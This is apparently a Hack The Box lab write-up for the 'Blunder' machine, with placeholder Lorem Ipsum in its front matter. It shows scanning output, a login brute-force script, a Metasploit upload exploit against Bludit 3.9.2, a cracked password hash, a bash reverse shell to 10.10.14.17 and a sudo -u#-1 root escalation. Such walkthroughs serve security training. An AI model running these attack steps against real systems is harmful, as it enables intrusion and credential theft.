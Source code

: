 ```yaml
---
title: Blunder - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-06-04
image: images/blunder_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```




   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/cache# nmap -Pn -sC -sV -n 10.10.10.191
    PORT   STATE  SERVICE VERSION
      21/tcp closed ftp
      80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
      |_http-generator: Blunder
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      |_http-title: Blunder | A blunder of interesting facts

    DIRB:
      + http://10.10.10.191/0 (CODE:200|SIZE:7562)
      + http://10.10.10.191/about (CODE:200|SIZE:3281)
      ==> DIRECTORY: http://10.10.10.191/admin/
      + http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
      + http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
      + http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
      + http://10.10.10.191/server-status (CODE:403|SIZE:277)

    NIKTO:
      + "robots.txt" contains 1 entry which should be manually viewed.

    FFUF dirb/common.txt (.php, .html, .txt):
      install.php        [Status: 200, Size: 30, Words: 5, Lines: 1]
      robots.txt         [Status: 200, Size: 22, Words: 3, Lines: 2]
      todo.txt           [Status: 200, Size: 118, Words: 20, Lines: 5]

2. Looking at the webpage we find nothing really of use. Dirb gives us a login under /admin, however we don't have any creds.
   install.php only says that Bludit is already installed
   robots.txt hows nothing
   todo.txt however gives us something;

    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING

  My conclusion from this - CMS is old version, and there are probably a user named fergus.


3. Looking through the source code of the webpage we find that the software version is 3.9.2.

    <!-- Include Bootstrap CSS file bootstrap.css -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

  Looking for vulnerabilities in Bludit 3.9.2 we find a page and a script to bypass brute force protection.
  https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb

  Enter found username (fergus), along with the url and standard wordlist rockyou.txt - no dice. We're missing something here
  the password doesn't seem the be a default from rockyou.txt.

  Using cewl we can try to create our own, custom, wordlist.
    root@nidus:/git/htb/blunder# cewl -w blunder-wl.txt -d 4 -m 5 http://10.10.10.191
    root@nidus:/git/htb/blunder# cat brute.py
      #!/usr/bin/env python3
      import re
      import requests

      host = "http://10.10.10.191" # change to the appropriate URL

      login_url = host + '/admin/'
      username = 'fergus' # Change to the appropriate username
      fname = "blunder-wl.txt" #change this to the appropriate file you can specify the full path to the file
      ..

    root@nidus:/git/htb/blunder# python3 brute.py
      ..
      [*] Trying: RolandDeschain

      SUCCESS: Password found!
      Use fergus:RolandDeschain to login.


  4. We are now able to access /admin. Continue to enumerate for Bludit 3.9.2 vulns and we find a Code Execution vuln in the
     upload function.

     https://github.com/bludit/bludit/issues/1081
     I tried to get this exploit to work manually, however I wasn't able to. So instead I went to the msf module
     'linux/http/bludit_upload_images_exec' that gave a reverse meterpreter shell right away.

     msf5 exploit(linux/http/bludit_upload_images_exec) > options

      Module options (exploit/linux/http/bludit_upload_images_exec):

         Name        Current Setting      Required  Description
         ----        ---------------      --------  -----------
         BLUDITPASS  RolandDeschain       yes       The password for Bludit
         BLUDITUSER  fergus               yes       The username for Bludit
         Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS      10.10.10.191         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
         RPORT       80                   yes       The target port (TCP)
         SSL         false                no        Negotiate SSL/TLS for outgoing connections
         TARGETURI   /                    yes       The base path for Bludit
         VHOST                            no        HTTP server virtual host

     msf5 exploit(linux/http/bludit_upload_images_exec) > run

       [*] Started reverse TCP handler on 10.10.14.17:4488
       [+] Logged in as: fergus
       [*] Retrieving UUID...
       [*] Uploading umtMhoBAyo.png...
       [*] Uploading .htaccess...
       [*] Executing umtMhoBAyo.png...
       [*] Sending stage (38288 bytes) to 10.10.10.191
       [*] Meterpreter session 1 opened (10.10.14.17:4488 -> 10.10.10.191:53692) at 2020-06-04 17:53:55 +0200
       [+] Deleted .htaccess

       meterpreter > shell
        Process 4654 created.
        Channel 1 created.
        whoami
        www-data


5. Looking around in the box we find 2 hashed passwords in /var/www/bludit-3.9.2/bl-content/databases, however we are unable to
   crack them. Enumerating further we find their new, updated version bludit 3.10 directory. Browsing to the database dir we find
   a new user hash.

   pwd
    /var/www/bludit-3.10.0a/bl-content/databases
   cat users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

     rockyou.txt doesn't contain the password, so using crackstation.net solved it for us - Password120

     su hugo
      Password: Password120
     whoami
      hugo
     cat /home/hugo/user.txt
      7648136cd484168abf3ba60f6687fe65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The reverse meterpreter shell won't allow us to execute 'sudo -l', so start by creating a new reverse shell - and upgrade it.

    bash -i >& /dev/tcp/10.10.14.17/4488 0>&1
    root@nidus:/git/htb/blunder# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 54502
      bash: cannot set terminal process group (1093): Inappropriate ioctl for device
      bash: no job control in this shell
      hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$


    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
      Password:
      Matching Defaults entries for hugo on blunder:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User hugo may run the following commands on blunder:
          (ALL, !root) /bin/bash


2. A quick google on '(ALL, !root) /bin/bash' shows us that we can escalate privs using 'sudo -u#-1 /bin/bash'

    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# whoami
      root
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# cat /root/root.txt
      4f812395afcaa35870cc99487a7ef108




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
